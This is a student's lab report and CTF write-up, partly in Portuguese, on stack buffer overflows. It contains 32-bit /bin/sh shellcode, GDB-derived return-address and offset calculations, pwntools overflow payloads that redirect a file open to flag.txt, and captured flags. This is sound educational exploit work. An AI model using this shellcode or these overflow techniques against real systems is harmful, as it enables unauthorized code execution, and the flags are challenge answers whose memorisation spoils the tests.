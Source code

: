 ## Task 1: Getting Familiar with Shellcode
    - 3.4 Task: Invoking the Shellcode´
        - After compiling and running the a32.out and the a64.out, we got a shell with compiled asssembly, one with 32 bits (a32.out) and another with 64 bits (a64.out).

## Task 2: Understanding the Vulnerable Program
    
- Done.

##  Task 3:
    
- 5.1 Investigation
    - Breakpoint 1, bof (str=0xffffce63 "V\004") at stack.c:16
        16	{
    - 20	    strcpy(buffer, str); 
    - p $ebp
        $1 = (void *) 0xffffca38
    - p &buffer
        $2 = (char (*)[100]) 0xffffc9cc

- 5.2 Launching Attacks
    - Changed Lines:
        - shellcode= (
            "\x31\xc0"    # xorl    %eax,eax
            "\x50"        # pushl    %eax
            "\x68""//sh"  # pushl    $0x68732f2f ??
            "\x68""/bin"  # pushl    $0x6e69622f
            "\x89\xe3"    # movl    %esp, %ebx
            "\x50"        # pushl    %eax
            "\x53"        # pushl    %ebx
            "\x89\xe1"    # movl    %esp, %ecx
            "\x31\xd2"    # xorl    %edx, %edx
            "\xb0\x0b"     # movb    $0xb, %al
            "\xcd\x80"    # int    %x80  
        ).encode('latin-1')

        - start = 517 - len(shellcode) 

        - ret    = 0xffffcb58           # $ebp + 120 = 0xffffca38 + 120

        - offset = 112                  # ( ebp - buffer ) + 4 = ( 0xffffca38 - 0xffffc9cc) + 4 = 108 + 4

        - Print : https://drive.google.com/file/d/1vm7OuJtYKEHzJmODLYC7bDOPHTo-N5xa/view?usp=sharing
                  https://drive.google.com/file/d/1XfvfQ-U735ROzjsGV4cWKOzei5ltrPA9/view?usp=sharing 



## CTF5

- Desafio 1
    - Existe algum ficheiro que é aberto e lido pelo programa? 
            Sim, o ficheiro mem.txt

    - Existe alguma forma de controlar o ficheiro que é aberto?
            Sim, o input que vamos dar ao programa tem de ter length=20 e o nome de ficheiro que queremos abrir (enchemos o buffer para conseguir aceder ao outro ficheiro).
            exploit-example.py: r.sendline(b"a"*20+b"flag.txt")

    - Existe algum buffer-overflow? Se sim, o que é que podes fazer?
            Sim, redefinir o ficheiro que abrimos usando o buffer-overflow.

    - flag: flag{bcf1850c9563238472818d22b123145d}


- Desafio 2
    - Que alterações foram feitas?
            Foi adicionada uma variável, val[4] e, para entrar no if, onde podemos depois redefinir o ficheiro a abrir, temos que conseguir colocar no buffer o pointer para val. 


    - Mitigam na totalidade o problema? 
            Não, conseguimos na mesma passar o valor de val e abrir o ficheiro que queremos.


    - É possivel ultrapassar a mitigação usando uma técnica similar à que foi utilizada anteriormente? 
            Sim, mas agora temos de passar também o endereço em little endian (0xfefc2122 -> 0x2221fcfe) do val e depois flag.txt.
            exploit-example.py: r.sendline(b"a"*20+b"\x22\x21\xfc\xfeflag.txt")

    - flag: flag{a6a1597472871fbb819698ee6e025c98}

    

